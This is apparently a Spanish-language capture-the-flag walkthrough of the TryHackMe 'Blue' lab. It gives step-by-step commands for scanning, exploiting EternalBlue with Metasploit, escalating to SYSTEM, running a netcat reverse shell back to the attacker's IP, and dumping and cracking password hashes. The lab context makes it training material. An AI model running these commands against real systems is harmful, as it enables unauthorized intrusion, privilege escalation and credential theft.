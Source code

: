 https://tryhackme.com/r/room/blue
# Fase de reconocimiento
## Buscar puertos abiertos
```
nmap -sT -Pn -p- --open --min-rate 5000 -T5 -vvv -n 10.10.101.248 -oG allports
```
![[Pasted image 20240427181452.png]]
## Reconocimiento de servicios
```
nmap -sCV -p135,139,445,3389 10.10.101.248 -oN targeted
```
![[Pasted image 20240427183221.png]]
## crackmapexec
```
crackmapexec smb 10.10.101.248
```
![[Pasted image 20240427181551.png]]

# Fase de ataque
## Metasploit
```
msfconsole
```
```
msf6> search eternalblue
```
![[Pasted image 20240427182201.png]]
```
msf6> use 0
```
```
msf6> show options
```
```
msf6> set RHOSTS 10.10.101.248
```
En este caso usamos shell porque queremos
```
msf6> set payload windows/x64/shell/reverse_tcp
```
En este caso por la VPN:
```
set LHOST 10.9.1.161
```
```
msf6> run
```
[-] ==pwned!==

# Privilege Escalation
```
msf6> search shell_to
```
![[Pasted image 20240427190335.png]]

```
msf6> use 0
```
```
msf6> show options
```
```
msf6> set SESSION 1
```
En este caso por la VPN:
```
msf6>set LHOST 10.9.1.161
```
```
msf6> run 
```
```
msf6> sessions -l
```
```
msf6> sessiobs -i 2
```
```
meterpreter> getsystem
```
[+] ==pwned!==

## Shell completa
1. Abrimos un smbserver
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
2. Copiamos a través de archivos compartidos el netcat
```
copy \\<ip2>\smbFolder\nc64.exe C:\Windowss\Temp\nc.exe
```
3. Nos ponemos en escucha por el puerto 445
```
rlwrap nc -nlvp 445
```
4. Ejecutamos el netcat
```
C:\Windows\Temp\nc.exe -e cmd <ip> 445
```


# Post Explotation
```
meterpreter> ps
```
```
meterpreter> migrate ID_PROCESO
```
![[Pasted image 20240427192129.png]]
```
meterpreter> hashdump
```
![[Pasted image 20240427192123.png]]
```
hashcat -m 1000 hash /usr/share/wordlist/rockyou.txt
```
Found!

Buscar flags
```
meterpreter> search -f flag.txt
```
